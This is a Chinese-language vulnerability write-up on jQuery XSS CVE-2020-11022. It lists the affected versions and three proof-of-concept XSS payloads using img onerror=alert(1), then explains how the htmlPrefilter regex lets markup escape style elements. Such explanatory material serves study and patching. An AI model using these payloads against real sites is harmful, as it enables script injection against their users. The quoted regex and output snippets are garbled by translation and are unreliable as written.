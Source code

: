 # jQuery XSS漏洞 CVE-2020-11022

## 漏洞描述

据NVD描述：在大于或等于1.2且在3.5.0之前的jQuery版本中，即使执行了消毒（sanitize）处理，也仍会执行将来自不受信任来源的HTML传递给jQuery的DOM操作方法（即html()、.append()等），从而导致xss漏洞。

## 漏洞影响

<a-checkbox checked>3.5.0 > jQuery >= 1.2</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="在线复现地址， 可以通过观察变化了解漏洞, https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html" description="" showIcon>
</a-alert>
<br/>

```python
PoC 1.
<style><style /><img src=x onerror=alert(1)> 

PoC 2. (Only jQuery 3.x affected)
<img alt="<x" title="/><img src=x onerror=alert(1)>">

PoC 3.
<option><style></option></select><img src=x onerror=alert(1)></style>
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313095322217.png)



PoC 1和PoC 2具有相同的根本原因。在中`.html()`，作为参数传递的HTML字符串将传递到 [$ .htmlPrefilter（）](https://api.jquery.com/jQuery.htmlPrefilter/)方法。该`htmlPrefilter`处理用于替换自闭合标签等进行到，通过使用以下正则表达式：`<tagname **/>**``<tagname ></tagname>`

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[ww：-] +）[^>] *）\ /> / gi
[。 ..]
htmlPrefilter：function（html）{
  return html.replace（rxhtmlTag，“ <$ 1> </ $ 2>”）;
}
```

如果PoC 1的HTML通过此替换，则输出将是：

```plain
> $ .htmlPrefilter（'<style> <style /> <img src = x onerror = alert（1）>'）
<“ <style> <style> </ style> <img src = x onerror = alert（1） >“
```

黄色部分是替换的字符串。由于此替换，`<style />`样式元素内部被替换`<style ></style>`为，结果是，之后的字符串从样式元素中被踢出。之后，`.html()`将替换的HTML分配给`innerHTML`。在这里，`<img ...>`字符串变成了实际的img标签，并触发了onerror事件。

顺便说一下，上述正则表达式在3.x之前的jQuery中使用。从3.x开始，使用了另一个经过稍加修改的正则表达式

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[az] [^ \ / \ 0> \ x20 \ t \ r \ n \ f] *）[^>] *）\ /> / gi
```

此更改引入了另一个XSS向量，该向量可能仅由更多基本元素和属性导致XSS。通过此更改引入了PoC 2的向量。它仅适用于jQuery3.x。

```plain
> $ .htmlPrefilter（'<img alt =“ <x” title =“ /> <img src = x onerror = alert（1）>”>'）
<“ <img alt =” <x“ title =”> < / x“> <img src = x onerror = alert（1）>”>“
```

在这种情况下，属性值上的 img 字符串被踢出并发生XSS。